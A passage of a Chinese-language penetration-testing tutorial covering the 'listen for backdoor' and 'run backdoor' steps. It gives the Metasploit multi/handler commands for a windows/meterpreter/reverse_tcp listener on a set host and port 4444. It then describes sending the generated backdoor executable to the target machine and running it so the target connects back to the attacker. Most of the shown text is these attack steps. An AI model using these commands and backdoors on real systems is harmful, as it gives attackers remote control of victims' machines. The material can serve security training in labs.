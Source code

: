 ![img](assets/wps1-1690339780491-1.jpg) 

### 2.4.2.**监听后门**

这里进行监听后门，这里设定的payload、lhost、lport都要和生成的后门相匹配才可以。

```shell
命令：

msfconsole 

use exploit/multi/handler 

set PAYLOAD windows/meterpreter/reverse_tcp  //很重要

set LHOST 192.168.10.20 

set LPORT 4444 

run
```

![img](assets/wps2-1690339780492-2.jpg) 

### 2.4.3.**运行后门**

这里我们把生成的exe文件发送到目标主机上进行执行，执行后在攻击机上就能够看到上线了。

